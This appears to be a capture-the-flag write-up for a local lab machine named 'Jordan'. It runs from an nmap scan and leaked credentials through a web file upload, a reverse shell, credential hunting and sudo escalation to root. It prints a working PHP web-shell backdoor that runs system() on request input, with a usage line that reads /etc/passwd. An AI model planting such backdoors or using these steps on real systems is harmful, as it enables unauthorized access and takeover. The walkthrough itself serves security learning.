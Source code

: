 ```yaml
---
layout: post
title: Jordan
date: 26-05-2025
categories: [medium]
tags: [basic]
image: "https://images.soleretriever.com/blog/a814e02f7fdc6a5ce6a002cc734d1b2b4e9a7611-1070x760.png?quality=90&fit=clip&auto=format&width=1200"
---
```

>Hi am cyberkiddle how are you doing, ithink your going well and every thing is cool is that right?
> If not am sorry for that you will be fine.
{: .prompt-hint }


>Welcome to the next space and we need to find the price of jordan.
> This time we need to dive into hacking with more skills and not walkthroughs try first if you thing you have some thing to get help you can try to come back.
{: .prompt-hint }

![Screenshot From 2025-05-25 11-03-13](https://github.com/user-attachments/assets/ca934608-f16f-4d92-a12a-ad5c0eec0e8d)


## Scanning
```
~/Desktop/redteam/hack/jordan » nmap -sC -sV 192.168.56.106                                       cyberkid@cyberkiddle
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-26 19:12 EAT
Nmap scan report for 192.168.56.106
Host is up (0.00015s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 af:b9:68:38:77:7c:40:f6:bf:98:09:ff:d9:5f:73:ec (RSA)
|   256 b9:df:60:1e:6d:6f:d7:f6:24:fd:ae:f8:e3:cf:16:ac (ECDSA)
|_  256 78:5a:95:bb:d5:bf:ad:cf:b2:f5:0f:c0:0c:af:f7:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-title: Sign-Up/Login Form
|_Requested resource was login.php
| http-robots.txt: 8 disallowed entries 
| / /backup /admin /admin_area /r00t /uploads 
|_/uploaded_files /flag
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 08:00:27:78:27:C1 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.79 seconds
-----------------------------------------------------------------------------------------------------------------------


```
## Enumarting 
Found dumped credential in the website, from the website source codes.

```
<html>
<head>
<title>
Fake admin area :)
</title>
<body>
<center><h1>The admin area not work :) </h1></center>
<!--	username : admin
	password : 3v1l_H@ck3r
	The 2nd flag is : {7412574125871236547895214}
-->
</body>
</html>



```
## Payload upload 
This is the crutial part that will give me the access to the target
![Screenshot From 2025-05-26 19-36-36](https://github.com/user-attachments/assets/533be8e1-169a-4153-b369-41ff7861456c)


```
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->


```
By this we can now get the reverse shell from the payload of python from reverseshell generator. using burp suite and get the access from there.


## intial access
>After i crafted the payload to get into the system
{: .prompt-hint }

![Screenshot From 2025-05-26 19-58-12](https://github.com/user-attachments/assets/c7154137-02e7-4dc7-a0ce-9655f5d4418d)

```
-----------------------------------------------------------------------------------------------------------------------
~/Desktop/redteam/hack/jordan » nc -lnvp 1234                                                 1 ↵ cyberkid@cyberkiddle
listening on [any] 1234 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.106] 54410
$ whoami
whoami
www-data
$ /bin/bash -i
/bin/bash -i
www-data@Jordaninfosec-CTF01:/var/www/html/uploaded_files$ clear

```
## Credetials i found in using linenum
>here we need to find the valid user credentials for the user in the system and try to use them
{: .prompt-hint }
you can use automation or any other way.

```
www-data@Jordaninfosec-CTF01:/tmp/lilly$ cat /etc/mysql/conf.d/credentials.txt
<1:/tmp/lilly$ cat /etc/mysql/conf.d/credentials.txt                         
The 4th flag is : {7845658974123568974185412}

username : technawi
password : 3vilH@ksor
www-data@Jordaninfosec-CTF01:/tmp/lilly$ 



```
## Lateral movement.
I found the credential file named in the list and i think it was so closer to be root write? lets see.

```
 Searching *password* or *credential* files in home (limit 70)
/bin/systemd-ask-password
/bin/systemd-tty-ask-password-agent
/etc/mysql/conf.d/credentials.txt
/etc/pam.d/common-password
/etc/ssl/private/ssl-cert-snakeoil.key
/usr/lib/git-core/git-credential
/usr/lib/git-core/git-credential-cache
/usr/lib/git-core/git-credential-cache--daemon
/usr/lib/git-core/git-credential-store
  #)There are more creds/passwds files in the previous parent folder


```

## Gues whoami
Finally i got the right credentials lets move more to root.
```
www-data@Jordaninfosec-CTF01:/tmp/lilly$ su technawi
su technawi
Password: 3vilH@ksor

technawi@Jordaninfosec-CTF01:/tmp/lilly$ whoami
whoami
technawi
technawi@Jordaninfosec-CTF01:/tmp/lilly$ 

```
lets try to see if we can have lateral movemments and try to hack more

## Am Root are your happy
```
technawi@Jordaninfosec-CTF01:/tmp/lilly$ sudo -l
sudo -l
[sudo] password for technawi: 3vilH@ksor

Matching Defaults entries for technawi on Jordaninfosec-CTF01:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User technawi may run the following commands on Jordaninfosec-CTF01:
    (ALL : ALL) ALL
technawi@Jordaninfosec-CTF01:/tmp/lilly$ sudo su
sudo su
root@Jordaninfosec-CTF01:/tmp/lilly# whoami 
whoami
root
root@Jordaninfosec-CTF01:/tmp/lilly# 



```
## Lets hack database
```
root@Jordaninfosec-CTF01:/var/www/html# cat chec	
cat check_login.php 
<?php
session_start();
$username = $_POST["user_name"];
$password = $_POST["pass_word"];
if($username ==="admin" && $password==="3v1l_H@ck3r")
{
	$_SESSION['loggedin']=true;
	header("Location: index.php");	
}
else
{
	echo "<br/><h1 style='color:red'><center>Error in username/password</center></h1>";
}
?>
root@Jordaninfosec-CTF01:/var/www/html# 

```

## Task what was the mysql login creds?
 Am glad we made it it was so simple and easy to do write how is your progress send me via email in about parten and i will see.

>I think you have enjoyed and every thing gopes well thank you much.
{: .prompt-hint }

